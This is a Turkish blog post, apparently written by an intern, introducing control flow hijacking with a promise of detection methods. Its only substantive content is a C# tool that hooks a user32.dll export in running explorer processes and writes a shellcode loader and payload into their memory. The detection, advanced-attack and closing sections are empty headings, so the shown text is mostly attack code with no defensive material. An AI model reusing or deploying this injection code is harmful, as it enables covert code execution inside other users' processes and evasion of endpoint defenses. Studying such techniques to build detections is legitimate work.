 ```yaml
---
layout: post
title: "Control Flow Hijacking Analysis and Detection"
categories: blue
---
```


Selam bugün staj kabulüm için araştırdığım ve kendisi için tespit mekanizmaları geliştirmeye çalışacağım control flow hijacking konusunu irdeleyeceğiz.

## İÇERİKLER
1. [Nedir bu Control Flow Hijacking, diğerlerinden farkı ne ?](#nedir-bu-control-flow-hijacking-diğerlerinden-farkı-ne-)
2. [Basit Bir Saldırı Örneği](#basit-bir-saldırı-örneğ)
3. [Basit Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları](#basit-saldırı-örneğine-karşı-statik-ve-dinamik-tespit-mekanizmaları)
4. [Karmaşık Bir Saldırı Örneği](#karmaşık-bir-saldırı-örneği)
5. [Karmaşık Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları](#basit-saldırı-örneğine-karşı-statik-ve-dinamik-tespit-mekanizmaları)
6. [Kapanış](#kapanış)


## Nedir bu Control Flow Hijacking, diğerlerinden farkı ne ?

Türkçe "kontrol akışını ele geçirme" şeklinde çevirebiliriz. Anlaşıldığı üzere çook geniş bir saldırı spektrumundan bahsediyoruz bu saldırı türünün içine pwn tarafında bufferoverflow ile stack teki ret adresini ele geçirme yahut heapoverflow ile fonksiyon pointer larının üzerine shellcode adresimizi yazmak girebilir. Malware tarafında ise dümdüz hedef process in thread lerinden birini durdurup kendi ayarladığımız context i yükleyip shellcode umuzu çalıştırmak gibi fikirler bu saldırı vektörü altında toplanabilir. Kısaca programın olağan akışını durdurmak, zehirlemek yada değiştirmek gibi her türlü faaliyeti Control Flow Hijacking altında değerlendirebiliriz.

## Basit Bir Saldırı Örneği
```csharp
public static void Main(string[] args) {
    string processname = args.Length == 0 ? "explorer" : args[0];
    var showHelp = false;
    string shellcodeStr = null;
    string dll = "user32.dll";
    string export = args.Length == 0 ? "TranslateAcceleratorW" : args[1];
    int[] pids;
    int[] pids_s = getProcIds(processname);
    for(int i = 0; i < pids_s.Length; i++) {
        
    }

    pids = getProcIds(processname);
    Console.WriteLine($"[=] Find {pids.Length} pid with process name: {processname}.exe");
    for (int i = 0; i < pids.Length; i++) {
        Console.WriteLine($"[=] Hijecting pid: {pids[i]}");

        var hModule = GetModuleHandle(dll);

        if (hModule == IntPtr.Zero)
            hModule = LoadLibrary(dll);

        if (hModule == IntPtr.Zero) {
            Console.WriteLine($"[!] Failed to open handle to DLL {dll}, is the KnownDll loaded?");
            return;
        }

        var exportAddress = GetProcAddress(hModule, export);
        if (exportAddress == IntPtr.Zero) {
            Console.WriteLine($"[!] Failed to find export {export} in {dll}, are you sure it's correct?");
            return;
        }

        Console.WriteLine($"[=] Found {dll}!{export} @ 0x{exportAddress.ToInt64():x}");

        var status = OpenProcess(pids[i], out var hProcess);
        if (status != 0 || hProcess == IntPtr.Zero) {
            Console.WriteLine($"[!] Failed to open PID {pids[i]}: {status}.");
            return;
        }

        Console.WriteLine($"[=] Opened process with id {pids[i]}");

        var shellcode = LoadShellcode(shellcodeStr);

        var loaderAddress = FindMemoryHole(
            hProcess,
            (ulong)exportAddress,
            ShellcodeLoader.Length + shellcode.Length);

        if (loaderAddress == 0) {
            Console.WriteLine("[!] Failed to find a memory hole with 2G of export address, bailing");
            return;
        }

        Console.WriteLine($"[=] Allocated loader and shellcode at 0x{loaderAddress:x} within PID {pids[i]}");

        var originalBytes = Marshal.ReadInt64(exportAddress);
        GenerateHook(originalBytes);

        ProtectVirtualMemory(
            hProcess,
            exportAddress,
            8,
            MemoryProtection.ExecuteReadWrite,
            out var oldProtect);

        var relativeLoaderAddress = (int)(loaderAddress - ((ulong)exportAddress + 5));
        var callOpCode = new byte[] { 0xe8, 0, 0, 0, 0 };

        using var ms = new MemoryStream(callOpCode);
        using var br = new BinaryWriter(ms);
        br.Seek(1, SeekOrigin.Begin);
        br.Write(relativeLoaderAddress);

        status = WriteVirtualMemory(
            hProcess,
            exportAddress,
            callOpCode,
            out var bytesWritten);

        if (status != NTSTATUS.Success || (int)bytesWritten != callOpCode.Length) {
            Console.WriteLine($"[!] Failed to write callOpCode: {status}");
            return;
        }

        var payload = ShellcodeLoader.Concat(shellcode).ToArray();
        //WriteProcessMemory(hProcess, (IntPtr)loaderAddress, payload, payload.Length, out _);

        status = ProtectVirtualMemory(
            hProcess,
            (IntPtr)loaderAddress,
            (uint)payload.Length,
            MemoryProtection.ReadWrite,
            out oldProtect);

        if (status != NTSTATUS.Success) {
            Console.WriteLine($"[!] Failed to unprotect 0x{loaderAddress:x}");
            return;
        }

        status = WriteVirtualMemory(
            hProcess,
            (IntPtr)loaderAddress,
            payload,
            out bytesWritten);

        if (status != NTSTATUS.Success || (int)bytesWritten != payload.Length) {
            Console.WriteLine($"[!] Failed to write payload: {status}");
            return;
        }

        status = ProtectVirtualMemory(
            hProcess,
            (IntPtr)loaderAddress,
            (uint)payload.Length,
            oldProtect,
            out _);

        if (status != NTSTATUS.Success) {
            Console.WriteLine($"[!] Failed to protect 0x{loaderAddress:x}");
            return;
        }

        var timer = new Stopwatch();
        timer.Start();
        var executed = false;

        Console.WriteLine("[+] Shellcode injected, Waiting 60s for the hook to be called");

        while (timer.Elapsed.TotalSeconds < 60) {
            var bytesToRead = 8;
            var buf = Marshal.AllocHGlobal(bytesToRead);

            ReadVirtualMemory(
                hProcess,
                exportAddress,
                buf,
                (uint)bytesToRead,
                out var bytesRead);

            var temp = new byte[bytesRead];
            Marshal.Copy(buf, temp, 0, bytesToRead);
            var currentBytes = BitConverter.ToInt64(temp, 0);

            if (originalBytes == currentBytes) {
                executed = true;
                break;
            }

            Thread.Sleep(1000);
        }

        timer.Stop();

        if (executed) {
            ProtectVirtualMemory(
                hProcess,
                exportAddress,
                8,
                oldProtect,
                out _);

            FreeVirtualMemory(
                hProcess,
                (IntPtr)loaderAddress);

            Console.WriteLine($"[+] Shellcode executed after {timer.Elapsed.TotalSeconds}s, export restored");
        }
        else {
            Console.WriteLine("[!] Shellcode did not trigger within 60s, it may still execute but we are not cleaning up");
        }

        CloseHandle(hProcess);
        Console.WriteLine();
        Console.WriteLine();
    }
}
```
## Basit Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları

## Karmaşık Bir Saldırı Örneği

## Karmaşık Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları

## Kapanış